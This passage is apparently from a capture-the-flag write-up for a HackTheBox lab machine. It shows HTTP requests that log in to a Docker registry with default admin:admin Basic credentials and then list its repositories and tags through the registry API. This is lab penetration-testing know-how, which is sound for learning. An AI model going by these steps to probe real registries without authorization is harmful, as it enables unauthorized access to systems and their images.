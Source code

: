 The most interesting information being : `Docker-Distribution-Api-Version	registry/2.0`. What we can do now is use `burp suit` to send request. 

```
[REQUEST]
GET /v2/ HTTP/1.1
Host: docker.registry.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Upgrade-Insecure-Requests: 1

[RESPONSE]
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 01 Apr 2020 21:53:28 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 2
Connection: close
Docker-Distribution-Api-Version: registry/2.0
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=63072000; includeSubdomains
X-Frame-Options: DENY
X-Content-Type-Options: nosniff

{}
```

We get an empty `json`. Because we know what type of api we're working with, we can try to enumerate what's available using the docs https://docs.docker.com/registry/spec/api/#tags.

(For readability, I'm just writing the first line of the request and the output of the response)

```sh
REQ : GET /v2/_catalog HTTP/1.1
RES : {"repositories":["bolt-image"]}
```

Great we got the repo, plus maybe some information. We have the name, now we can get tags list. Again, all this enumeration is by reading the documentation

```sh
REQ : GET /v2/bolt-image/tags/list HTTP/1.1
RES : {"name":"bolt-image","tags":["latest"]}
```

So we got the tag, lets continue

```
REQ : GET /v2/bolt-image/tags/latest HTTP/1.1
RES : 404 page not found
```
